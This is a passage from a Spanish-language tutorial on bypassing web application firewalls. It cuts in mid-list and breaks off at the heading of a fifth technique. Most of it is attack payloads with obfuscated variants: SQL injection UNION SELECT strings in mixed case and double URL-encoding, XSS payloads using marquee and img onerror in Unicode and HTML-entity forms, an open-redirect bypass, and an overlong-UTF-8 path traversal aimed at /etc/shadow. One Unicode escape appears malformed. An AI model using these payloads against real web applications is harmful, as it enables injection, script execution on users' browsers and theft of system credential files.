 **Técnica omitida:**

> UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

**Ejemplo en URL:**

> https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

### **3. Técnica Unicode**

Los caracteres ASCII en codificación Unicode nos brindan excelentes variantes para evitar WAF. Codifique toda o parte de la carga útil para obtener resultados.

**Solicitud básica:**

> <marquee onstart=prompt()>

**Ofuscado:**

> <marquee onstart=\u0070r\u06f\u006dpt()>

**Bloqueado por WAF:**

> /?redir=http://google.com

**Técnica omitida:**

> /?redir=http://google。com (Unicode alternative)

**Bloqueado por WAF:**

> <marquee loop=1 onfinish=alert()>x

**Técnica omitida:**

> ＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)

**Solicitud básica:**

> ../../etc/shadow

**Ofuscado:**

> %C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFshadow

### **4. Técnica de representación HTML**

Las aplicaciones web codifican caracteres especiales en HTML. Codificarlos y renderizarlos en consecuencia. Casos de bypass básicos con codificación HTML numérica y genérica.

**Solicitud básica:**

> "><img src=x onerror=confirm()>

**Carga útil codificada:**

> &quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt;

**Carga útil codificada:**

> &#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62;

### **5. Técnica de codificación mixta**
